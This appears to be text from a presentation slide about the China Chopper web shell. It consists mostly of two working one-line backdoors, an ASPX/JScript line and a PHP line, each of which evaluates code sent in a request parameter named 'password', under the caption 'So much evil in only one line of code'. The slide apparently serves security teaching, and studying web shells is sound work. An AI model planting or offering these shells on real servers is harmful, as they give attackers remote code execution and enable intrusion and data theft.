

# China Chopper
| <%@ Page Language="Jscript"%><%eval(Request.Item["password"],"unsafe");%> |
| --- |
 <?php @eval($_POST['password']);?>
So much evil in only one line of code